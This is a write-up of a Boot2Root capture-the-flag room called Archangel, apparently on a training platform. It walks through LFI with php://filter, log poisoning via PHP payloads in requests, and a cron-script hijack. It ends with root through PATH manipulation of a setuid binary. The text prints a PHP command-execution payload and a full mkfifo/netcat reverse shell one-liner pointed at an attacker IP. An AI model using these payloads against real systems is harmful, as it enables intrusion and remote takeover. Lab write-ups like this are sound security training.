### Introduction

The Archangel room is a Boot2Root challenge that focuses on web exploitation, privilege escalation, and local file inclusion (LFI) vulnerabilities. The goal is to start from basic enumeration, exploit vulnerabilities on the web server, and eventually escalate privileges to gain root access.

This writeup will walk through each step, from scanning and discovering weaknesses to using those vulnerabilities to get control of the system. If you're interested in learning about web-based attacks and privilege escalation, this room offers a great hands-on experience.

### Initial Enumeration

Starting out with the Initial Enumeration.

#### Port Scanning

We start by scanning the target machinesing the command `nmap -A <target-IP>` to find open ports and ervices. This will help us understand what services are running.

We can see that we have an ssh port open on port 22 and an http port open on port 80

#### Web Enumeration

Since http port 80 is open, we would enumerate the web server using `gobuster` to find any hidden directories.
After using `gobuster`, I didn't find any interesting directory, but if we look back at the first question in **Task 2**, it said we should find a different hostname. We can see an email address plastered on the front page of the web server.

Lets try giving the IP address the hostname **mafialive.thm**. We can do this by navigating to the `/etc/hosts` file

After navigating to the site, we can see that it is correct and we got our first flag

Since the third question in **Task 2** asked us to look for a page under development, I ran the command `gobuster dir -u http://mafialive.thm -w /usr/share/dirb/wordlists/common.txt` and got the following result

Seeing that there is a _robots.txt_ file, i navigated there and got the page



### Exploitation

#### Local File Inclusion

I navigated to the `test.php` directory and we are met with this

With this we can see that the site might be vulnerable to local file inclusion. Looking back at the hint we were giving to find flag 2, we were told that the **_Best way to exploit lfi is to look at the code_**.

I then used the `php://filter` wrapper which can be used to read php files as plain text instead of executing them. just add this `php://filter/convert.base64-encode/resource`. I was met with the following base64 encoding



Then after decoding it, i was met with this



Since that worked, i tried using the same method on the `test.php` file and got this base64 encoded text



After decoding it, i got the second flag



#### Log Poisoning

Seeing as the server is vulnerable to lfi, i also tried tampering the URL to see if i can perform a directory traversal. It was successful and I was able to access the `/etc/passwd` file.



Since the last question in task 2 ask us to _Get a shell and find the user flag_ and the hint given was **Poison!!!**. So i tried using that same method to check if i can access the `access.log` file and it worked



We are now a step closer to getting our result. Lets test out the log poisoning by injecting a whoami code into the web server using the `curl` command



_NOTE: The phpexec file is not an existing file, it is a random file i inputed and the reson i did that is to trigger an entry in the web server's log files, which is essential for log poisoning. When you send a request to a non-existent page, the web server typically logs the request in its access or error logs. In this case, by sending the curl request with a PHP payload in the User-Agent header (or any other header), we are trying to inject the PHP code `(<?php system('whoami'); ?>)` into the log file. The log file would then contain this PHP code_

Lets check the result by using the `curl` command to print out the content of the `access.log` file



We can see that it worked and we are met with the result of the executed `whoami` command. With this, we can see that RCE(Remote Code Execution) is possible. So now, i am going to send an inalid request to the server using netcat. we are requesting the page `/<?php phpinfo(); ?>`

Navigating back to the webpage and accesing the access.log directory, we were able to see the following


It means we were able to execute the code and load the `PHPInfo` file. Uing the method we used above, lets try and get a reverse shell from the server.

We will use this payload to execute system commands
`/<?php system($_GET[‘cmd’]); ?>` and use an encoded url reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f`. I encoded it using the site [urlencoder](https://www.urlencoder.org/)

I then parsed it into the webserver and started a netcat listener to receive the shell




And we were successful in getting the shell

Then after navigating to the `/home` directory and seeing an archangel user we were able to list out the content of the directory and get the user flag



### Privilege Escalation

I then started checking all other files we had access to but i wasnt able to see anything worthwhile. I then checked the `etc/crontab` file and saw that there is an `helloworld.sh` file that is owned by the archangel user and is running every 1 minute



lets try editing the file and injecting a reverse shell payload to see if we can get a shell to the archangel user



I then started a netcat listener to get the shell and it worked. We now have access to the archangel user



we can now check and get our user2 flag

#### Root Privilege Escalation

Its now time to escalate our privilege to root. If we check the `/home/archangel/secret` well, we can see that there is a backup file with **setuid** bit set which basically allows the program to run with the permissions of the file's owner, rather than the user executing it.

After trying to view the content of the file i was met with some gibberish but we can see that something stood out



so i tried executing the file but got an error



But since we know that the executable backup file is using `cp` command, we can manipulate bothe the **PATH** variable and the `cp` command.

I created a cp file in the users home directory first, then i added the command `/bin/bash` in the file. Then i made the file executable using the command `chmod +x cp`. I then used the command `export PATH=/home/archangel:$PATH`. We can now execute the backup file again



As we can see, it was succesful and we were able to get the root flag.

**USEFUL RESOURCE**

- [LFI TO RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1/)
- [PRIV ESCALATION WITH PATH](https://medium.com/purplebox/linux-privilege-escalation-with-path-variable-suid-bit-6b9c492411de)
